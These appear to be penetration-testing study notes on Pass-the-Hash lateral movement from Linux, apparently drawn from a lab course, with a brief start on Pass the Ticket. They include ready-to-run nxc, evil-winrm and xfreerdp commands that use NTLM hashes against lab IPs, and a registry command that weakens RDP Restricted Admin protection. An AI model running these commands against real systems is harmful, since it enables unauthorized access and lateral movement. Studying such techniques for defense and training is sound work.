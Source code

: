 
### <mark class="hltr-orange">PTH with nxc (Linux)</mark>

```shell-session
nxc smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

We can also use the option `-x` to execute commands.

```shell-session
nxc smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### <mark class="hltr-orange">PTH with evil-winrm (Linux)</mark>

[evil-winrm](https://github.com/Hackplayers/evil-winrm) is another tool we can use to authenticate using the Pass the Hash attack with PowerShell remoting. If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

```shell-session
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

### <mark class="hltr-orange">PTH with RDP (Linux)</mark>

We can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.

`Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:

![[Pasted image 20240911183738.png]]

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

```cmd-session
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```


Now we can perform a pass the hash attack using RDP

```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```


## <mark class="hltr-cyan">Pass the Ticket (PtT) from Windows</mark>

Another method for moving laterally in an Active Directory environment is called a [Pass the Ticket (PtT) attack](https://attack.mitre.org/techniques/T1550/003/). In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>